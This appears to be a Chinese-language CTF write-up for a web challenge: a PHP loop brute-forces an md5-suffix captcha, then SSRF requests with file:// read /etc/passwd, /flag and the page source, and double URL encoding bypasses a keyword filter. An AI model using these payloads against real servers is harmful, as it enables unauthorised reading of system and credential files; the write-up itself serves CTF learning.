 ### write up 
Captcha的地方写着代码：substr(md5(captcha), -6, 6) == "974961"，很明显验证码的md5值的后六位要等于指定的数字。
~~~
          <?php
for ($i=0; $i < 1000000000; $i++) {
    $a = substr(md5($i), -6, 6);
    if ($a == "fc6943") {   //此处为==后面的内容
        echo $i;   //输出验证码
        break;
    }
}
?>
~~~


解决了验证码的问题后，我们可以试着通过SSRF中URL伪协议file://来访问服务器的文件，例如/etc/passwd
~~~
url=file:///etc/passwd&captcha=*****
~~~
接着试试能不能访问/flag文件
~~~
url=file:///flag&captcha=*****
再试试看能不能读网页的源代码
~~~
~~~
url=file:///var/www/html/index.php&captcha=*****
~~~
~~~
<?php
error_reporting(0);
session_start();
require_once "lib.php";
init();
 
$is_die = 0;
$is_post = 0;
$die_mess = '';
$url = '';
 
if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
{
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    $is_post = 1;
    if ( $captcha !== $_SESSION['answer'])
    {
        $die_mess = "wrong captcha";
        $is_die = 1;
    }
    if ( preg_match('/flag|proc|log/i', $url) )
    {
        $die_mess = "hacker";
        $is_die = 1;
    }
}
~~~
阅读源码，发现确实对flag进行了过滤 preg_match('/flag|proc|log/i', $url) ，那么就需要对preg_match函数进行绕过。
同时因为/i 表明不区分大小写，因此无法通过大小写绕过。试试URL编码，file:///%66%6c%61%67
'''
url=file:///%66%6c%61%67&captcha=*****
'''
一次不行进行二次编码：
'''
url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=*****
'''
